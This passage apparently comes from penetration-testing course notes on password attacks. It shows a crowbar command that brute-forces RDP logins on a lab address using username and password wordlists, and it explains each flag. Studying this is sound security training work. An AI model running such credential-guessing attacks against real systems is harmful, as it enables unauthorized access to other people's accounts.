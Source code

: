   ![Picture](../19.%20Password%20Attacks/Image/11.png)
- To invoke crowbar, we will specify the protocol (-b), the target server (-s), a username (-u), a wordlist (-C), and the number of threads (-n).
  ```bash
  crowbar -b rdp -s 192.168.50.10/32 -U user.txt -C pass.txt -n 1
  ```
  - -b rdp: Specify the target protocol for the attack as RDP.
  - -s 192.168.50.10/32: The IP address of the target RDP server.
  - -U user.txt: Path to the file user.txt containing a list of usernames (usernames) to try.
  - -C pass.txt: Path to the file pass.txt containing the list of passwords (passwords) to try.
  - -n 1: Specifies the maximum number of parallel connections allowed.
  ![Picture](../19.%20Password%20Attacks/Image/12.png)
